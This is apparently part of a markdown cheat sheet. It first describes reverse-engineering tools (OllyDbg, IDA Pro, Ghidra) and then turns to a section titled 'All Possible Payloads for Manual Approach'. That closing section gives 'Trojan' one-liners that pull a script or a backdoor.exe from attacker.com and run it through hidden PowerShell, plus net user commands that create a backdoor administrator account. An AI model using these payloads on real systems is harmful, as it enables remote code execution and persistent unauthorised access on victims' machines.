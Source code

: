 **Reference Links:**
- [YARA Documentation](https://yara.readthedocs.io/)

### Tool Name: OllyDbg
**Description:** 32-bit assembler level analyzing debugger for Microsoft Windows, useful for reverse engineering and malware analysis.

**Example Usage:**
- Load executable file into OllyDbg
- Set breakpoints at critical functions
- Step through code execution
- Analyze API calls and memory modifications
- Extract embedded strings and configurations

**Reference Links:**
- [OllyDbg Official Site](http://www.ollydbg.de/)

### Tool Name: IDA Pro
**Description:** Interactive disassembler and debugger for static and dynamic analysis of executable files across multiple platforms.

**Example Usage:**
- Load malware sample into IDA Pro
- Analyze disassembled code structure
- Identify functions and code flow
- Extract strings and cryptographic constants
- Generate function call graphs

**Reference Links:**
- [IDA Pro Official Site](https://hex-rays.com/ida-pro/)

### Tool Name: Ghidra
**Description:** Free and open-source reverse engineering tool developed by NSA for analyzing compiled code on various platforms.

**Example Usage:**
```bash
# Start Ghidra
./ghidraRun

# Create new project
# Import malware sample
# Auto-analyze the binary
# Navigate through decompiled code
# Search for strings and functions
```

**Reference Links:**
- [Ghidra GitHub Repository](https://github.com/NationalSecurityAgency/ghidra)

## All Possible Payloads for Manual Approach

### Trojan Payloads
```
# Command Shell Trojans
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"

cmd.exe /c "powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://attacker.com/backdoor.exe','C:\\temp\\backdoor.exe'); Start-Process 'C:\\temp\\backdoor.exe'}\""

# Remote Access Trojan (RAT) Commands
net user backdoor P@ssw0rd /add
net localgroup administrators backdoor /add
```